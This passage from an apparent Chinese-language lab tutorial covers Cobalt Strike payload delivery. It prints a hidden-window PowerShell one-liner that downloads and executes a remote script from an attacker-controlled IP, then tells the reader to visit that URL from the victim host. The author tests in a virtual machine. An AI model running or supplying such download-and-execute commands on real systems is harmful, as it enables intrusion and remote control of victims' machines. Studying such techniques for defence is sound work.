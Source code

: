 ### 3.2.3. 复制payload

在点击运行后会弹出一个窗口，这里需要将Cobalt Strike生成的Payload需要完整地复制下来，其中url它是个文件路径，就是让目标 （受害者）通过这个地址和端口下载 恶意脚本。

命令：powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.10.20:80/a'))"

![image-20230413142455243](assets/HPZcosgrNuwdpSF.png)

### 3.2.4. 访问URL

这里使用受害者的主机访问这个URL，这里我使用虚拟机进行测试，其实访问后就是一段powershell代码。

URL：http://192.168.10.20/a

![image-20230413142502122](assets/JmV5v4RfCkyF2PE.png)

### 3.2.5. 执行payload
